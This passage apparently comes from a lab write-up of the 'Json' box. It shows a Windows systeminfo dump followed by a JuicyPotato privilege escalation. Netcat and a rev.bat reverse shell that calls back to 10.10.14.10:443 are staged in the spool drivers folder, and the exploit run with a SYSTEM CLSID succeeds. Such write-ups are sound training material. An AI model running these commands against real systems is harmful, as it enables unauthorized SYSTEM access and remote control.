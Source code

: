     Available Physical Memory: 4,440 MB
    Virtual Memory: Max Size:  7,807 MB
    Virtual Memory: Available: 5,689 MB
    Virtual Memory: In Use:    2,118 MB
    Page File Location(s):     C:\pagefile.sys
    Domain:                    WORKGROUP
    Logon Server:              N/A
    Hotfix(s):                 N/A
    Network Card(s):           1 NIC(s) Installed.
                               [01]: vmxnet3 Ethernet Adapter
                                     Connection Name: Ethernet0 2
                                     DHCP Enabled:    No
                                     IP address(es)
                                     [01]: 10.10.10.158
                                     [02]: fe80::f003:c7bd:7b8c:88aa
                                     [03]: dead:beef::f003:c7bd:7b8c:88aa
    Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.



### JuicyPotato

I'll grab the binary from the [JuicyPotato release
page](https://github.com/ohpe/juicy-potato/releases) and drop it into my
share. I'll copy `nc64.exe` and `rev.bat` onto Json, where `rev.bat` is
just a `nc` rev shell:



    c:\>copy \\10.10.14.10\share\nc64.exe \windows\system32\spool\drivers\color\
            1 file(s) copied.

    c:\>copy \\10.10.14.10\share\rev.bat \windows\system32\spool\drivers\color\
            1 file(s) copied.
            
    c:\>type \windows\system32\spool\drivers\color\rev.bat
    \windows\system32\spool\drivers\color\nc64.exe -e cmd.exe 10.10.14.10 443



Now I'll select a CLSID from the [JuicyPotatio documentation for this
OS](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2012_Datacenter)
that is associated with SYSTEM and give it a run:



    c:\>\\10.10.14.10\share\JuicyPotato.exe -t * -p \windows\system32\spool\drivers\color\rev.bat -l 9001 -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
    Testing {e60687f7-01a1-40aa-86ac-db1cbf673334} 9001
    ....
    [+] authresult 0
    {e60687f7-01a1-40aa-86ac-db1cbf673334};NT AUTHORITY\SYSTEM

    [+] CreateProcessWithTokenW OK



In my `nc` listener in another window, I get a shell as SYSTEM:
